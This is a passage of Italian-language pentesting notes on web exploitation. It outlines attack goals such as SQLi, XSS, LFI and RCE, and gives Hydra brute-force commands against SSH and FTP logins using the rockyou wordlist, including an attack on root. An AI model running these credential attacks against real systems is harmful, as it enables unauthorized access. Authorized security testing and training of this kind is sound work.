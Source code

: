 # 🌐 Web Exploitation

Appunti e snippet per la fase di **exploitation su applicazioni web**.

## 📌 Obiettivi

* Bypassare login e sessioni
* Sfruttare vulnerabilità di tipo SQLi/XSS/LFI/RFI
* Abusare di file upload e deserialization
* Identificare e sfruttare vulnerabilità CMS
* Attaccare template engine e servizi lato server (SSTI/SSRF/RCE)

---

## 🔑 Hydra (Brute Force Login)

**Perché usarlo:**
Hydra è uno degli strumenti più veloci e versatili per il brute force di credenziali. Supporta molti protocolli: HTTP(S), FTP, SSH, SMB, RDP, MySQL, PostgreSQL e altri.
Si usa quando trovi un servizio o un form di login e vuoi testare combinazioni di username/password da wordlist.

**Opzioni principali:**

* `-l` → singolo username
* `-L` → wordlist di username
* `-p` → singola password
* `-P` → wordlist di password
* `-s` → porta (se diversa dal default)
* `-t` → numero thread (default 16, utile aumentare a 32–64 per velocizzare)
* `-f` → stop al primo login valido trovato
* `-o` → salva risultati su file
* `-V` → modalità verbose (mostra ogni tentativo)

---

### 🔹 Comandi diretti (solo output su CLI)

#### 🖥️ SSH

```bash
# Brute force su SSH con utente noto
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>

# Wordlist di utenti e password insieme
hydra -L users.txt -P passwords.txt ssh://<target-ip> -t 32 -f
```

#### 📁 FTP

```bash
# Brute force su FTP
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>

# Specifica porta non standard
hydra -l admin -P rockyou.txt ftp://<target-ip>:2121
```

